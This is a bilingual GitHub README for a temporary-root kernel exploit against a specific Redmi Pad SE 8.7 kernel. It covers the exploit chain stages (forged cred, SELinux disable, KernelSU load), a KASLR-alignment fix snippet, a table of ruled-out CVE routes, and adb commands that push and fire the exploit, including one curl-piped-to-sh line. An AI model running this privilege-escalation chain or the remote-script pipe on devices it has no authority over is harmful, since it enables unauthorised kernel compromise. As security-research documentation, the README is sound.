


# Full ROOT on a LOCKED Bootloader — Redmi Pad SE 8.7

[中文](README.md) · **English**

<a href="README.md"></a>

[](docs/en/04-vulnerability.md)
[](#risk)
[](#risk)
[](#risk)
[](#1-final-result)
[](docs/en/)
[](LICENSE)

> **One line:** full kernel-level root (`uid=0`, `u:r:ksu:s0`, complete capability set,
> KernelSU loaded) on a device whose bootloader stayed locked — with zero partition writes
> and zero bricks.

---

## ⚡ 30-second version

```console
$ adb shell uname -r
6.6.118-android15-8-gc4127a25dcf3-ab15863337-4k

$ adb shell su -c id
uid=0(root) gid=0(root) groups=0(root) context=u:r:ksu:s0

$ adb shell su -c 'grep Cap /proc/self/status'
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff

$ adb shell grep kernelsu /proc/modules
kernelsu 180224 4 - Live 0x0000000000000000 (O)
```

**Bootloader never unlocked. Nothing flashed. Reboot and it is gone. Re-run one command and
it is back.**

---

## 🧨 The actual point of this repo

The valuable part is not "one tablet can be rooted". It is this:

```
The published Shark source fails 100% of the time on this machine:

  [calib] timers=0
  [cred]  task_recs=0

Because of one line:

    slide & 0x1fffff = 0x80000      <- not zero

It compares the low 21 bits of every call_site against the low 21 bits of the
LINK-TIME address. But this device's KASLR is 512 KB aligned, not 2 MiB, so all
low 21 bits shift by 0x80000. Every filter silently matches nothing -- with no
error message at all.
```

**The fix** (self-calibrating sweep over 4 candidates):

```c
static const unsigned long long cands[4] = {0, 0x80000, 0x100000, 0x180000};
for (int ci = 0; ci < 4; ci++) {
    g_low_adj = cands[ci];
    cc = scan_timer_allocs(...);          /* keep whichever matches most */
    if (cc > c) { c = cc; best_ci = ci; }
}
```

After that:

```
[calib] timers=512 low_adj=0x80000
[cred]  task=0xffffff807a40cb00 task_recs=1     <- 0 becomes 1
PROBE_OK
```

**Full analysis → [docs/en/09-root-cause.md](docs/en/09-root-cause.md)**

---

## 💡 Why you should read this even if you don't own this tablet

| If you are… | You will find |
|---|---|
| **porting someone else's kernel exploit** | A universal trap: KASLR alignment granularity is a **device property**, not a constant. Every "bit-slice comparison" needs the slide compensated |
| **doing Android temporary root** | Complete criteria for 13 routes, each backed by disassembly / decompilation / measurement. Saves you weekends |
| **learning kernel exploitation** | The full chain from tracefs leak → slab measurement → carrier choice → EXACT HIT, including 7 bugs we created ourselves |
| **just wanting root on this tablet** | Run it. Commands are below |

**The most transferable sentence in this repo:**

> KASLR alignment granularity is a device property, not a constant.
> Any code that compares a bit-slice of a link-time address against a bit-slice of a
> runtime address must first compensate for the corresponding component of the slide.

---

## 🎬 The exploit chain



**Three stages, each requiring its own successful page reclaim:**

| Stage | What it does | Result |
|---|---|---|
| `fake_cred` | point `task->cred` at a forged full-capability cred in our own page | `CapEff=0x1ffffffffff` |
| `selinux` | zero-write `selinux_state` | `getenforce` → Permissive |
| `fake_uid` | zero-write the fake cred's `uid`/`gid` | `resuid=0/0/0` |
| `late-load` | load the KernelSU LKM via ksud | `kernelsu ... Live` |

**Why it works**: `prepare_creds()` "launders" the fake cred and allocates a real SELinux
blob — so we are not simply lying to the kernel, we route the forged object through a
legitimate path.

---

## 🗺 Which route should you try (read this before burning a weekend)


[中文版决策树](assets/decision-tree-zh.png) · [Full dead-end analysis](docs/en/03-dead-ends.md)

---

## ⛔ Do not try these (we killed all of them, with evidence)

| Route | Criterion | Verdict |
|---|---|---|
| **GhostLock** `CVE-2026-43499`<br>(4 public repos) | `remove_waiter` contains **zero** `mrs sp_el0` ⇒ already uses `waiter->task` | ❌ backported by Xiaomi |
| **Bad Epoll** `CVE-2026-46242`<br>(a 99%-reliable PoC) | `ep_remove` has the `getxr/stlxr` pin + `cbz` gate + `fput` | ❌ patched |
| **mqsas**<br>`miui.mqsas.IMQSNative` | (1) method indices 16–30 do not exist (public exploit needs 21) (2) `runCommand` is allowlisted (3) `mqsasd` is not even running | ❌ triple-blocked |
| **Magica** | needs a Permissive window plus a zygote restart we had no way to trigger | ⚠️ theoretically viable, untested |
| **MTK BROM (everything)** | penumbra FAQ: Xiaomi enables **BROM SLA + DAA** | ❌ no free path |
| **fenrir / lkpatcher** | require an **already unlocked** bootloader | ❌ circular dependency |
| **Kamakiri / Heapbait / Carbonara** | BROM gained a `wIndex` bounds check; DA2 patched 2024-11; Carbonara needs a signed DA1 | ❌ |
| **userfaultfd family** | `vm.unprivileged_userfaultfd = 0` | ❌ |
| **11 NFC CVEs** | no NFC hardware | ❌ |
| **5 nginx CVEs** | completely unrelated (NGINX2Root server bugs) | ❌ |
| **binder UAF** (fixed in 6.6.145) | binary looks **unpatched** (`binder_free_transaction` has no `put_task_struct`) | ⚠️ **still viable, we did not continue** |

**Full evidence → [docs/en/03-dead-ends.md](docs/en/03-dead-ends.md)**

---

## 🚀 Quick start

```bash
# 0. Check whether your device matches
curl -sL https://raw.githubusercontent.com/nestchao/redmi-pad-se-87-root/main/scripts/check-device.sh | sh
# or manually:
adb shell uname -r    # must be 6.6.118-android15-8-gc4127a25dcf3-ab15863337-4k

# 1. Push the exploit and ksud
adb push artifacts/shark-k66118-fixed /data/local/tmp/shark66118
adb push artifacts/ksud-3.3.1        /data/local/tmp/ksud33
adb shell 'chmod 755 /data/local/tmp/shark66118 /data/local/tmp/ksud33'

# 2. Install KernelSU manager v3.3.1 (32680) -- versions must match
adb install -r -g KernelSU_v3.3.1_32680-release.apk

# 3. Zero-risk self-check (does not trigger the bug)
adb shell '/data/local/tmp/shark66118 probe'
#    expect: [calib] timers=512 low_adj=0x80000
#            [cred]  task_recs=1
#            PROBE_OK

# 4. Fire (may fail on the first run; retry. ~2/3 success rate)
adb shell "cd /data/local/tmp && \
  PYB110_KSUD=/data/local/tmp/ksud33 \
  PYB110_MANAGER_PKG=me.weishu.kernelsu \
  PYB110_KMI=android15-6.6 \
  ./shark66118 --auto"

# 5. Verify
adb shell su -c id
```

**Full reproduction guide → [docs/en/11-reproduce.md](docs/en/11-reproduce.md)**

---

## 📊 Hard numbers from this repo

| Item | Count |
|---|---|
| Routes individually examined and ruled out | **13** |
| CVEs confirmed "already fixed" at the binary level | **4** |
| Kernel ChangeLog commits parsed | **11,845** (44 releases) |
| Android-reachable security commits filtered out | **270** |
| Bugs we introduced and then fixed ourselves | **7** |
| Encoding / tooling incidents | **9** |
| Partition writes | **0** |
| Bricks | **0** |
| Panics in 6 runs after the fix | **0** |
| Documentation | **14 chapters · English + Chinese** |

---

## 📚 Documentation

### The three that matter

| | Document | Why |
|---|---|---|
| 🧨 | **[09 · Root cause: the 2MiB alignment assumption](docs/en/09-root-cause.md)** | The most valuable chapter. A complete reasoning chain you can transfer to any exploit port |
| ⛔ | **[03 · Every dead end, with evidence](docs/en/03-dead-ends.md)** | The biggest time-saver. 13 routes, each with a criterion |
| 🕳 | **[12 · Pitfalls](docs/en/12-pitfalls.md)** | 7 bugs + 9 incidents + 9 misleading observations + symptom lookup table |

### All chapters

| # | English | 中文 |
|---|---|---|
| 01 | [Device baseline](docs/en/01-device.md) | [设备基线](docs/01-device.md) |
| 02 | [Methodology](docs/en/02-methodology.md) | [侦察方法论](docs/02-methodology.md) |
| 03 | [**Dead ends**](docs/en/03-dead-ends.md) | [**全部死路**](docs/03-dead-ends.md) |
| 04 | [Vulnerability internals](docs/en/04-vulnerability.md) | [漏洞原理](docs/04-vulnerability.md) |
| 05 | [KASLR leak](docs/en/05-kaslr.md) | [KASLR 泄露](docs/05-kaslr.md) |
| 06 | [Slab layout](docs/en/06-slab-layout.md) | [slab 布局](docs/06-slab-layout.md) |
| 07 | [Carriers](docs/en/07-carriers.md) | [载体选择](docs/07-carriers.md) |
| 08 | [EXACT HIT](docs/en/08-exact-hit.md) | [EXACT HIT](docs/08-exact-hit.md) |
| 09 | [**Root cause**](docs/en/09-root-cause.md) | [**根因**](docs/09-root-cause.md) |
| 10 | [Breakthrough](docs/en/10-breakthrough.md) | [成功链解读](docs/10-breakthrough.md) |
| 11 | [Reproduce](docs/en/11-reproduce.md) | [复现指南](docs/11-reproduce.md) |
| 12 | [**Pitfalls**](docs/en/12-pitfalls.md) | [**踩坑清单**](docs/12-pitfalls.md) |
| 13 | [Timeline](docs/en/13-timeline.md) | [时间线](docs/13-timeline.md) |
| — | [Cheatsheet](docs/en/CHEATSHEET.md) | [速查卡](docs/CHEATSHEET.md) |

---

## 🖼 Assets

Everything is in [`assets/`](assets/), free to reuse when sharing:

| File | Use |
|---|---|
| [`banner.png`](assets/banner.png) | English banner |
| [`banner-zh.png`](assets/banner-zh.png) | Chinese banner |
| [`chain.png`](assets/chain.png) | Exploit chain diagram |
| [`decision-tree.png`](assets/decision-tree.png) | English decision tree |
| [`decision-tree-zh.png`](assets/decision-tree-zh.png) | Chinese decision tree |

Regenerate: `python scripts/make-assets.py`

**Want to help spread the word?** [`PROMO.md`](PROMO.en.md) has copy-paste posts for
Reddit / XDA / HN / X / Telegram plus awesome-list submission entries.

---

## Risk

| Item | Reality |
|---|---|
| **Brick** | **Impossible** — zero partition writes throughout |
| Kernel panic | **0 in 6 runs** after the fix (about 10 during the early blind-reap phase; every one auto-rebooted and recovered) |
| Data | Low risk (a panic while a file is being written could corrupt that file) |
| **Persistence** | Temporary root, **lost on reboot** |
| Bootloader | Always `locked` / `verifiedbootstate=green` |

**Why it cannot brick**: search the exploit source for `/dev/block`, `by-name`, `mmcblk`,
`dd if=`, `flash`, `reboot`, `insmod` — **not one hit**. It only touches kernel memory.

**Behaviour on failure**: prints `PARKED`, keeps the zombie instead of blindly reaping,
**does not crash. Just re-run.**

---

## 🤝 Contributing

Found something we missed — especially the **binder UAF** and **Joyride/hidraw** routes we
did not finish? Issues and PRs are welcome. See [CONTRIBUTING.md](CONTRIBUTING.md).

**If you reproduced this (or failed to) on another model**, please report your `uname -r`
and output in [Discussions](https://github.com/nestchao/redmi-pad-se-87-root/discussions) —
it is extremely valuable to others.

---

## ❤️ If this repo helped you

- **Star it** — that is the only way more people find it
- Forward [the KASLR pitfall chapter](docs/en/09-root-cause.md) to anyone porting an exploit
- Try it on another model and come back with the result

---

## Credits

| Project | Role |
|---|---|
| [kpgc10kai/Shark](https://github.com/kpgc10kai/Shark) | source base |
| [Yunnijian/Shark-Releases](https://github.com/Yunnijian/Shark-Releases) | upstream binary (behaviour reference, v2.5.1) |
| [fynks/awesome-temporary-root](https://github.com/fynks/awesome-temporary-root) | **the index that led us to Shark** (documents a success on an identical kernel) |
| [quyicheng03-boop/CVE-2026-98260-popsicle-android](https://github.com/quyicheng03-boop/CVE-2026-98260-popsicle-android) | EXACT HIT methodology |
| [WantenMN/cve-2026-98260-adb](https://github.com/WantenMN/cve-2026-98260-adb) | "exact node offset" idea |
| [vvb2060/Magica](https://github.com/vvb2060/Magica) | AOSP mechanism for permissive → setuid |
| [R0rt1z2/penumbra](https://github.com/R0rt1z2/penumbra) | authoritative MTK BROM/DA docs (used to rule routes out) |

---

## Disclaimer

**This project is for authorized security research on devices you own.**

- Use it only on hardware you own
- Kernel exploits can trigger a panic. Although this project never writes a partition and
  cannot brick the device, proceed at your own risk
- Do not use it on any device you are not authorised to test

**License: MIT**
